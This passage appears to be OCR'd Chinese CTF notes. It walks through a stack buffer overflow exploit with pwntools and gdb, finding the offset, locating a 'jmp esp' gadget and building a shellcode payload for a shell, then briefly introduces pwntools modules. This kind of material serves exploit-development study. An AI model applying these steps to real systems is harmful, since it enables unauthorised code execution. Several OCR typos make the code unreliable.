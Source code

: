     raw_input()
    t.interactive()

把 py 运行起来,gdb attach 它｡ ps -e | grep bin 找到PID来Attach
gdb $ c 继续运行｡ 输入值｡｡非法退出了｡看 Invalid address 
0xy61618('haaa') 内存应该是aaah｡ 看之前的cyclic｡把这段haaa替换成别的就行了
pwn.cyclic_find('haaa') 长度是28｡修改py文件 

另开进程

    >>>import pwn
    >>>a =  pwn.LEF('/bin')
    >>>a.search('jmp esp').next()
    >>>pwn.asm('jmp esp')
    '\xff\xe4'
    >>>a.search('\xff\xe4')
    ----generate object ...
    >>>c.next()
    134717254
    >>>hex(134717254)
    '0x8079f46'
    >>>c.next()
    135040543

修改代码 payload部分为 


    payload = ''
    payload += '%259c' #填充259的垃圾数据
    payload += 'a'*28

    payload += pwn.p32(0x8079f46)
    pyaload += shellcode
    pyaload = compress(payload)

python poc.py 就拿到shell

Misc: 跑起来会输出 pid, 这时用 gdb attach pid可以绑定程序｡

## pwntools 快速入门
pwntools中包含很多三方软件包｡包括capstone等二进制软件｡推荐在linux或者
mac os上新开python virtualenv安装｡(pwntools不支持windows或者python3)
安装详细教程:https://docs.pwntools.com/en/stable/install.html

pwntoosl的模块多 wiki地址:https://docs.pwntools.com/en/stable/

1.pwnlib.asm
asm模块主要通过capstone进行汇编的编译与反编译｡通常用来编译各种平台构架的shellcode
2.pwnlib.constants
头文件宏定义的封装,通过此模块,可以直接获取一下系统宏定义对应的整数数据｡
3.pwnlib.context
上下文管理器,通过它来控制一些全局的信息｡比如目标计算机体系结构,log等级等｡控制生
成shellcode,log时候的默认行为｡
4.pwnlib.dynelf
通过内存leak数据来自动化定位程序中函数位置｡极其实用｡
5.pwnlib.encoders
shellcode编码工具｡通过编码排除shellcode中特定字符｡经常无法转换｡

